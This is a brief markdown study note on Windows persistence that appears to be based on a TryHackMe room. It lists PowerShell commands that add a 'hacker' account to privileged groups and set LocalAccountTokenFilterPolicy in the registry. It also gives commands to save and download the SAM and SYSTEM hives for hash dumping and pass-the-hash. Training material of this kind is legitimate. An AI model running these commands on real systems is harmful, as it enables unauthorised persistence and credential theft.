 # Windows  Persistance

For general overview of persistance that OS neutral: [[Persistence]].



## Tampering With unprivileged Accounts

Unprivileged Accounts less monitored than administrative accounts Assigning Groups Memberships is a direct way to gain administrative privileges.

```powershell
net localgroup administrators hacker /add
net localgroup "Backup Operators" hacker /add # Less suspicious - cant RDP or WinRM
net localgroup "Remote Management Users" hacker /add # Same as the above but can remote in
```

`LocalAccountTokenFilterPolicy` from [[Windows-User-Account-Control]] strips any local account of its administrativge privileges when logging in remotely, to regain those change them in the registery:

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

With Evil-WinRm (see [[Evil-winrm-Cheatsheet]]) we can backup SAM and SYSTEM files and dowload them 

```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

With [[Impacket-Cheatsheet]] `secretsdump.py` we can dump the hashes of those files, and use Evil-Winrm to perform a pass-the-hash attack.


## References
[THM Windows Persistance Room](https://tryhackme.com/room/windowslocalpersistence)